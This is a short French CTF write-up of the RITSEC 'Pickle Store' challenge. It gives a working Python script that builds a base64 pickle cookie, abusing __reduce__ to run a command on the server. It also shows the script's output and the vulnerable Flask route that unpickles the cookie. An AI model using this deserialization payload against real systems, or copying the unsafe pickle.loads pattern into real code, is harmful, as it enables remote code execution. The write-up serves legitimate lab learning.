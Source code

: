 ### Pickle Store
![Consigne](/images/ritsec_ctf/Pasted%20image%2020230403095113.png)

*Le site*

![site](/images/ritsec_ctf/Pasted%20image%2020230403095202.png)

*click sur un pickle*

![site](/images/ritsec_ctf/Pasted%20image%2020230403110101.png)

*on remarque que des cookie sont utiliser par le site*
![site](/images/ritsec_ctf/Pasted%20image%2020230403103747.png)

On utilise donc [[Python]] pour créer un cookie qui effectue une RCE

``` python
import pickle  
import base64  
import subprocess  
  
class RCE:  
    def __reduce__(self):  
        cmd = ('ls','-a')
        return subprocess.check_output, (cmd,)  
  
if __name__ == '__main__':  
    pickled = pickle.dumps(RCE())  
    print(base64.urlsafe_b64encode(pickled))
```

``` ouput
b'gASVLwAAAAAAAACMCnN1YnByb2Nlc3OUjAxjaGVja19vdXRwdXSUk5SMAmxzlIwCLWGUhpSFlFKULg=='
```


On enregistre le cookie et refresh la page

*La RCE foncitonne*

![site](/images/ritsec_ctf/Pasted%20image%2020230403105756.png)

*La faille de sécurité du site*

``` python
@app.route('/order')
def order():
    cookie = request.cookies.get("order")
    try:
        data = pickle.loads(b64decode(cookie)) # Execution du code ici
    except:
        return redirect(url_for("index"))
    return render_template("order.html", order=data)
```
